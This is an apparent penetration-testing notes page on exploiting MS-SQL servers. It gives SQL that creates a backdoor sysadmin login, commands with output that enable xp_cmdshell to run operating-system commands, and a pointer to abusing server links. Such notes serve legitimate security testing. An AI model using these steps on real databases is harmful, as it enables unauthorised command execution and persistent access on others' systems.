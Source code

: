# MS-SQL Databases

MS-SQL or SQL Server is Microsoft's offering of an SQL Database. The syntax and model is quite similar to standard SQL with the benefit of being able to hook directly into offerings such as Windows Active Directory and interface with the Windows operating system. It is some of these features however that can allow us to get a strong foothold on a device.

## Connecting

There are multiple ways to interface with an MS-SQL server.  If on Linux then I'd recommend using [sqsh](https://sourceforge.net/projects/sqsh/), as it's simple and allows you to quickly create commands:

```bash
sqsh -S 192.168.0.6 -U sa
```

However, I'd strongly recommend setting up a Windows VM and using [SQL Management Server](https://docs.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms?view=sql-server-2017), as it allows you to quickly create scripts for enumeration and offers a graphical view for enumerating the database which can make extracting information much quicker.

## User Creation

For creating a sysadmin user to enable easy access to the database post-exploitation, we'll need to create a login and associated user for SQL authentication. We can then assign this user sysadmin privileges.

```sql
CREATE LOGIN booj WITH PASSWORD = 'B00j123!'
CREATE USER booj for LOGIN booj
EXEC sp_addsrvrolemember @loginame = N'booj', @rolename = N'sysadmin'
```

## xp\_cmdshell

It's easy to execute commands on the host operating system as the service account using xp\_cmdshell.  By default this is unfortunately disabled, and to re-enable and use it the SQL accounts requires sysadmin level privileges.

```sql
1> exec sp_configure 'show advanced options', 1
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install. 
(return status = 0)
1> reconfigure
2> go
1> exec sp_configure 'xp_cmdshell', 1
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> reconfigure
2> go
1> exec master..xp_cmdshell 'whoami' 
2> go
```

## Server Links

The best reference for exploiting server links is [SQL Server – Link… Link… Link… and Shell: How to Hack Database Links in SQL Server!](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/) They're not hard to pull off and can allow you to escalate your permissions quite easily. However, do note that you should absolutely use rpc\_out if it's enabled.

Since OpenQuery can only satisfy user queries, stored procedures or user creation is not possible and makes your escalation path much more difficult.

